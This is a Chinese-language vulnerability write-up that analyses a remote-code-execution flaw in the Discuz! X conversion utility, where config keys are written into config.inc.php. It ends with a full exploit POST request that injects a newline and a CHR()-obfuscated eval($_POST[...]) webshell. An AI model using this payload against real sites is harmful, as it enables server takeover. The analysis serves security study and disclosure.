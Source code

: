 # Discuz 系列全版本 版本转换功能导致Getshell

> 原文：[https://www.zhihuifly.com/t/topic/2881](https://www.zhihuifly.com/t/topic/2881)

# Discuz! X 系列全版本，版本转换功能导致Getshell

## 一、漏洞简介

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

## 二、漏洞影响

Discuz! X 全版本

## 三、复现过程

### 漏洞分析

入口`utility/convert/index.php`

```
require './include/common.inc.php'; `$action = getgpc(‘a’);

$action = empty($action) ? getgpc(‘action’) : $action;

$source = getgpc(‘source’) ? getgpc(‘source’) : getgpc(‘s’);` 
```

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

```
} elseif($action == 'config' || CONFIG_EMPTY) {      
    require DISCUZ_ROOT.'./include/do_config.inc.php';  
} elseif($action == 'setting') { 
```

满足条件，引入`./include/do_config.inc.php`

```
@touch($configfile);
 ......
if(submitcheck()) {
    $newconfig = getgpc('newconfig');
    if(is_array($newconfig)) {
        $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
        foreach ($checkarray as $key) {
      ......
    }
    save_config_file($configfile, $newconfig, $config_default); 
```

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

```
function save_config_file($filename, $config, $default) {
    $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
    $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
    $year = date('Y');
    $content = <<<EOT
<?php

$_config = array(); `EOT;

$content .= getvars(array(’_config’ => $config));

$content .= “\r\n// “.str_pad(’  THE END  ', 50, ‘-’, STR_PAD_BOTH).” //\r\n\r\n?>”;

file_put_contents($filename, $content);

}` 
```

getvars函数处理，此时的`$config` = `$newconfig+config.default.php对应项的补充`。看一下getvars函数：

```
function getvars($data, $type = 'VAR') {
    $evaluate = '';
    foreach($data as $key => $val) {
        if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
            continue;
        }
        if(is_array($val)) {
            $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
        } else {
            $val = addcslashes($val, '\'\\');
            $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
        }
    }
    return $evaluate;
} 
```

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php 2206行）：

```
foreach ($array as $key => $val) {
        if($level == 0) {
            //str_pad — 使用另一个字符串填充字符串为指定长度
            // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
            $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
            $return .= "\r\n// $newline //\r\n";
        } 
```

本意是使用`$config`数组的key作为每一块配置区域的"注释标题"，写入配置文件的$newline依赖于$key，而$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换->选择产品转换程序 ->设置服务器信息 这里抓包，

payload：

```
POST /dz/utility/convert/index.php HTTP/1.1
Host: www.0-sec.org:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 278
Origin: http://127.0.0.1:8001
Connection: close
Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
Upgrade-Insecure-Requests: 1 `a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa` 
```

![image](img/695ada7a7dad1f24740b144ec76d5c60.png)

## 参考链接

> https://xz.aliyun.com/t/7492#toc-18